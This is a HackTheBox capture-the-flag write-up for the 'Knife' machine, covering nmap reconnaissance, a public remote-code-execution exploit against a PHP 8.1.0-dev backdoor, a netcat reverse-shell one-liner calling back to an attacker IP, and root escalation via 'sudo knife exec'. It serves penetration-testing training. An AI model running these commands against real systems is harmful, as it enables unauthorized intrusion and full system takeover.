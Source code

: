 ```yaml
---
title: HackTheBox[KNIFE]
author: Anurag M
date: 2021-08-28 14:30:00 +0800
categories: [HackTheBox]
tags: [ "hackthebox", "sudo", "knife", "php", "gtfobin" ]
---
```


![knife](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/knife.png)

In this blog, we are going to discuss about pwning knife from hackthebox.

## About The Machine

| Name | OS | Difficulty | Creator |
|------|----|------------|---------|
| [Knife](https://www.hackthebox.eu/home/machines/profile/347)  | Linux | Easy | [MrKN16H7](https://www.hackthebox.eu/home/users/profile/98767) |

| Blood | User |
|-------|------|
| User | [JKR](https://www.hackthebox.eu/home/users/profile/77141) |
| Root | [JKR](https://www.hackthebox.eu/home/users/profile/77141) |

## Reconnaissance
### Nmap
```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $nmap -A -v 10.10.10.242                                                                           
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From the Nmap scan, we can see that 2 ports are open. Port 22 and 80, which are standard SSH, HTTP ports respectively. Port 22 ie, SSH port needs a username and password, we do not have that (assuming brute force is not an option).
Port 80 is for web applications. We can find something interesting in port 80, HTTP methods.
You can read more about OPTIONS method [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS)

Since this is related to HTTP methods, we can use the `curl` command-line program to issue an OPTION request.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $curl -X OPTIONS http://10.10.10.242 -i
HTTP/1.1 200 OK
Date: Mon, 24 May 2021 00:20:43 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
```
We have an interesting information for `X-Powered-By`

`X-Powered-By: PHP/8.1.0-dev`

We have an impressive PHP bug, a quick reserch on google, we could find that it is vulnerable to Remote Code Execution. The exploit is availble in [exploit db](https://www.exploit-db.com/).

Download the [Exploit](https://www.exploit-db.com/exploits/49933)

![img](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/exploit.png)

## Gaining foothold

Let's use the exploit. It will ask us for the target URL, as we append the target URL in the exploit, we will get shell as user.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)
```
We do not have a stable shell. Let's take a reliable reverse shell.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 4444 >/tmp/f
```

Start netcat listener on the specified port, we get a reliable reverse shell. Upgrade to a stable shell.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.242] 48310
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("bin/bash")'
james@knife:/$ export TERM=xterm
export TERM=xterm
james@knife:/$ 
```
we can find the user flag under the directory `/home/james`

```bash
james@knife:~$ pwd
pwd
/home/james
james@knife:~$ ls
ls
user.txt
james@knife:~$ 
```

## Privilege Escalation

Let's move forward, checking sudo rights we can find that user `james` is allowed to run /usr/bin/knife as root.
```bash
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
james@knife:~$ 
```
Let's see what [gtfobins](https://gtfobins.github.io) have to say about `knife`

![img](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/knife-gtfobin.png)

Let's get the root shell

```bash
james@knife:~$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'                               
sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
# id
id
uid=0(root) gid=0(root) groups=0(root)
# 
```
Root flag can be found under the directory `/root`

```bash
# cd /root
cd /root
# ls
ls
delete.sh  root.txt  snap
# 
```

## Resources

| Topic | Url |
|-------|-----|
| HTTP OPTION Methods | [Click here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS) |
| Exploit | [Click here](https://www.exploit-db.com/exploits/49933) |
| GTFOBins-knife | [Click here](https://gtfobins.github.io/gtfobins/knife/#sudo) |
